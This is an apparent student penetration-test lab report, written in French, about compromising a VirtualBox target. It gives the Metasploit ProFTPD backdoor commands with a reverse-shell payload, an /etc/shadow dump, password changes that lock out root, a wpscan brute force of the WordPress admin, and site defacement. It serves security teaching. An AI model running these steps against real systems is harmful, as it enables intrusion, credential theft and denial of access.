









# Livrable 1
*JOUET Malo & PENCRANE Alexis*

## Rappel des objectifs

1. L'attaquant peut-il accéder aux fichiers du système d'exploitation ?
2. L'attaquant peut-il usurper l'identité du compte administrateur ?
3. L'attaquant peut-il bloquer l'accès à l'administrateur ?
4. L'attaquant peut-il modifier le contenu du site web ?
5. L'attaquant peut-il bloquer l'accès à l'administrateur à l'outil de conception de site web ?

## Étape 1: Découverte de la cible

### 1.1. Découverte du réseau

> Nous savons que la machine cible se trouve sur le même réseau que notre machine, nous allons donc utiliser la commande netdiscover pour trouver l'adresse IP de la machine cible.

```bash
netdiscover -i eth1 -r 192.168.56.0/24
```

| IP            | At MAC Address       | Count | Len | MAC Vendor / Hostname     |
|---------------|----------------------|-------|-----|---------------------------|
| 192.168.56.1  | 0a:00:27:00:00:0c    | 1     | 60  | Unknown vendor            |
| 192.168.56.102| 08:00:27:7a:fa:4f    | 1     | 60  | PCS Systemtechnik GmbH    |

**Nous voyons que la machine cible a pour adresse IP 192.168.56.102**
*L'adresse 192.168.56.1 est l'adresse de notre machine hôte attribué par VirtualBox*

### 1.2. Découverte des services

> Nous allons utiliser la commande nmap pour scanner les ports ouverts sur la machine cible. Nous allons d'abord commencer par un scan rapide pour voir les ports ouverts.

```bash
nmap -p- 192.168.56.102 -vv -oN scan_global.txt
```

**Nous avons découvert 2 ports ouverts sur la machine cible :**
- 21 (ftp)
- 22 (ssh)
- 80 (http)

[Scan global](./file/scan_global.txt)

> Nous allons maintenant scanner les services qui sont derrière ces ports.

```bash
nmap -p 21 -sV --script vuln 192.168.56.102 -vv -oN scan_ftp.txt
```

**On peut observer dans le résultat du scan qu'il existe un grand nombre de vulnérabilités sur ce service et qu'il y a également une backdoor fonctionnelle testée par nmap.**

[Scan ftp](./file/scan_ftp.txt)

```bash
nmap -p 22 -sV --script vuln 192.168.56.102 -vv -oN scan_ssh.txt
```

**Sur ce service, nmap n’a testé aucune vulnérabilité, bien qu’il y en ait un grand nombre.**

[Scan ssh](./file/scan_ssh.txt)

```bash
nmap -p 80 -sV --script vuln 192.168.56.102 -vv -oN scan_http.txt
```

**Sur ce service nmap à repérer plusieurs vulnérabilités, il a de plus fait une énumération des fichiers et des dossiers du site web qui nous apprend la présence d’un répertoire /secret.**

[Scan http](./file/scan_http.txt)

---
**Maintenant que nous avons découvert les services qui sont derrière les ports ouverts, nous allons pouvoir passer à l’utilisation des outils de pentest.**

---

## Etape 2: Introduction dans la cible

### 2.1. Introduction dans la cible

> Nous allons utiliser le service ftp pour nous connecter à la machine cible et plus particulièrement la backdoor repérer précédemment.
>
> Comme nous connaissons déjà la version, nous allons chercher un exploit avec metasploit.

```bash
msfconsole

search type:exploit proftpd 133c
```

| # | Name                                   | Disclosure Date | Rank      | Check | Description                                   |
|---|----------------------------------------|-----------------|-----------|-------|-----------------------------------------------|
| 0 | exploit/unix/ftp/proftpd_133c_backdoor | 2010-12-02      | excellent | No    | ProFTPD-1.3.3c Backdoor Command Execution    |

**Metasploit nous propose un exploit qui correspond parfaitement à notre recherche. Nous allons donc pouvoir le mettre en œuvre.**

```bash
use exploit/unix/ftp/proftpd_133c_backdoor

# On configure l'adresse de la cible
set RHOST 192.168.56.102

# On configure le payload utilisé
set PAYLOAD cmd/unix/reverse

# On configure l'adresse IP de notre machine pour la connexion en reverse
set LHOST 192.168.56.103

# On lance l'exploit
run
```

**Nous avons maintenant un shell sur la machine cible.**

## Étape 3: Atteinte des objectifs 1,2 et 3

### 3.1. Atteinte de l'objectif 1
*Rappel: L'attaquant peut-il accéder aux fichiers du système d'exploitation ?*

> Grâce à notre connexion en reverse, nous avons un shell sur la machine cible. Nous allons donc pouvoir utiliser les commandes Linux pour atteindre notre objectif.
>
> Comme nous sommes root, nous pouvons voir n’importe quelle fichier du système comme les fichiers des autres utilisateurs.

```bash
ls /home
marlinspike
# On peut voir que le dossier marlinspike existe

ls /home/marlinspike
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
backdoored_proftpd-1.3.3c
Desktop
Documents
Downloads
examples.desktop
latest.tar.gz
Music
Pictures
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
Public
Templates
Videos
wordpress
# La commande liste bien les fichiers

# nous pouvons également utiliser la commande cat pour lire le contenu des fichiers comme le fichier /etc/shadow qui nécessite des droits root pour être lu.
cat /etc/shadow
root:!:17484:0:99999:7:::
[...]
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
mysql:!:17486:0:99999:7:::
sshd:*:17486:0:99999:7:::

# La commande affiche bien le contenu du fichier
```

***Ce qui signifie que nous pouvons accéder aux fichiers du système d'exploitation.***

### 3.2. Atteinte de l'objectif 2
*Rappel: L'attaquant peut-il usurper l'identité du compte administrateur ?*

> En exécutant la commande id, nous pouvons voir que nous sommes root. Nous allons donc pouvoir usurper l’identité du compte administrateur.

```bash
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

***Ce qui signifie que nous sommes root et que nous usurpons l'identité du compte administrateur.***

### 3.3. Atteinte de l'objectif 3
*Rappel: L'attaquant peut-il bloquer l'accès a l'administrateur ?*

> Nous allons utiliser la commande passwd pour changer le mot de passe du compte root et de marlinspike.

```bash
passwd root
Enter new UNIX password: root
Retype new UNIX password: root
passwd: password updated successfully
# On change le mot de passe du compte root

passwd marlinspike
Enter new UNIX password: marlinspike
Retype new UNIX password: marlinspike
passwd: password updated successfully
# On change le mot de passe du compte marlinspike
```

***Ce qui signifie que nous pouvons bloquer l'accès a l'administrateur.***

## Étape 4: Atteinte des objectifs 4 et 5

> Les étapes étant en rapport avec le site web nous allons utiliser le service http pour atteindre les objectifs.

### 4.1. Découverte du site web

> En arrivant sur le site web, nous tombons sur une page quasiment vide.



> Mais en nous rappelant notre scan nmap, nous savons qu’il existe une partie cachée du site dans le répertoire /secret. Nous allons donc essayer d’y accéder.



> Nous arrivons maintenant sur un blog WordPress. Mais pour le moment, nous n’avons pas la possibilité de modifier le contenu du site web. Nous allons ainsi essayer de trouver un moyen d’accéder à l’interface d’administration, pour cela, nous allons simplement utiliser le bouton login de la page qui nous renvoie vers /secret/wp-login.php.



> En cherchant sur internet, on peut découvrir que le login par défaut est admin. Nous allons donc utiliser wpscan pour trouver le mot de passe.

```bash
wpscan --url http://192.168.56.102/secret/wp-admin -U admin -P /usr/share/wordlists/rockyou.txt
```

**Wpscan nous a trouvé le mot de passe du compte admin: admin**

### 4.2. Atteinte de l'objectif 4
*Rappel: L'attaquant peut-il modifier le contenu du site web ?*

> Nous allons maintenant nous connecter à l'interface d'administration du site web avec le compte admin et le mot de passe admin.



> Nous arrivons maintenant sur l'interface d'administration du site web. Nous allons donc pouvoir modifié le contenu du site web.



> Nous allons maintenant modifier le contenu du site web pour y mettre un message.



> Nous pouvons maintenant voir que le message a bien été modifier sur le site web.



***Ce qui signifie que nous pouvons modifier le contenu du site web.***

### 4.3. Atteinte de l'objectif 5
*Rappel: L’attaquant peut-il bloquer l’accès à l’administrateur à l’outil de conception de site web ?*

> Nous allons maintenant essayer de bloquer l’accès à l’interface d’administration du site web. Pour cela, nous allons tous simplement changer le mot de passe du compte admin.



> Nous pouvons maintenant voir que nous ne pouvons plus nous connecter à l'interface d'administration du site web.



***Ce qui signifie que nous pouvons bloquer l’accès à l’administrateur à l’outil de conception de site web.***

## Etape 5: Conclusion

> Nous avons pu voir que la machine cible était très vulnérable. Nous avons pu accéder aux fichiers du système d’exploitation, usurper l’identité du compte administrateur, bloquer l’accès à l’administrateur, modifier le contenu du site web et bloquer l’accès à l’administrateur à l’outil de conception de site web.
